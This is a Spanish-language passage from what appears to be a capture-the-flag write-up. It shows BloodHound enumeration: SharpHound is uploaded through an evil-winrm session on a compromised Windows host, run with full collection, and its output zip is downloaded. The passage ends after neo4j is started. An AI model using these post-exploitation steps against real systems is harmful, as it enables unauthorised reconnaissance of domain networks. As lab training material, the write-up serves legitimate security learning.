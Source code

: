 ## Bloodhound
Vamos a pasar el `Sharphound` para hacer la posterior enumeración utilizando `Bloodhound` a ver si encontramos algo interesante.

Podemos hacer uso de la función `upload` interna que tiene `evil-winrm` para poder subir el binario de `SharpHound`

```console
*Evil-WinRM* PS C:\Windows\Temp\work> upload SharpHound.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/SharpHound.exe to C:\Windows\Temp\work\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!
```

Ejecutamos el `SharpHound`
```console
*Evil-WinRM* PS C:\Windows\Temp\work> .\SharpHound.exe -c All 
```

Cuando termine, vemos que nos ha generado un archivo .zip.
```console
*Evil-WinRM* PS C:\Windows\Temp\work> dir


    Directory: C:\Windows\Temp\work


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/1/2024  12:19 PM          11385 20240901121934_BloodHound.zip
-a----         9/1/2024  12:19 PM           7897 MWU2MmE0MDctMjBkZi00N2VjLTliOTMtYThjYTY4MjdhZDA2.bin
-a----         9/1/2024  12:17 PM        1052160 SharpHound.exe
```

Nos lo descargamos haciendo uso de la función `download` interna que tiene `evil-winrm`
```console
Evil-WinRM* PS C:\Windows\Temp\work> download 20240901121934_BloodHound.zip
                                        
Info: Downloading C:\Windows\Temp\work\20240901121934_BloodHound.zip to 20240901121934_BloodHound.zip
                                        
Info: Download successful!

```

Iniciamos la base de datos `neo4j` ya que es la que utiliza `Bloodhound` e iniciamos Bloodhound.
```console
$ sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:7623). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```
